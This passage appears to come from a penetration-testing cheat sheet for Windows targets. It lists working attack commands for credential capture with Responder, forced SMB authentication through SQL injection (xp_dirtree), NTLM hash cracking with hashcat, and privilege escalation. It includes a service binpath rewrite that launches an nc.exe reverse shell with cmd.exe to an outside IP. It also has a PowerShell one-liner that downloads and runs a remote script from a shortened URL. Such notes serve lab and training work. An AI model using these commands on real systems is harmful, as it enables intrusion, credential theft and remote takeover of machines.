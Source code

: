 #### psexec
Use psexec to autheenticate with valid credentials. CME has command below.

#### Open shares
Look for open shares, look for text files with passwords. CME has a module for this (spidering).

#### Using Responder to get NTLM hashes

This will only work if your machine is in the internal network.

Example: 
```
responder -I tun0 (change depending on network interface)
```

If you have code execution and can list files/directories, particularly shares, list your own share

Example through SQL injection: 
```
exec master.dbo.xp_dirtree '\\10.10.14.41'
```

Example in RDP:
```
Just open up Windows explorer and type \\10.10.14.41
```

To crack an NTLM hash, use hashcat.
```
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt  --force
```



### Privilege Escalation
---
#### Windows (Local)
* https://www.fuzzysecurity.com/tutorials/16.html
* Unquoted Service Paths - https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae
* Try to look for services running as System (get accesschk binary on there first) 
``` 
accesschk.exe /accepteula -uwcqv "Authenticated Users" *
sc config SSDPSRV binpath= "C:\Inetpub\nc.exe -nv 10.11.0.188 4444 -e C:\WINDOWS\System32\cmd.exe"
sc config SSDPSRV obj= ".\LocalSystem" password= ""
sc qc SSDPSRV
net start SSDPSRV
```

##### PowerUp

PowerUp finds misconfigurations in Windows boxes that could be leveraged for privilege escalation.

PowerUp.ps1 through Github without touching disk:

```
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/1mK64oH’); Invoke-AllChecks”
```
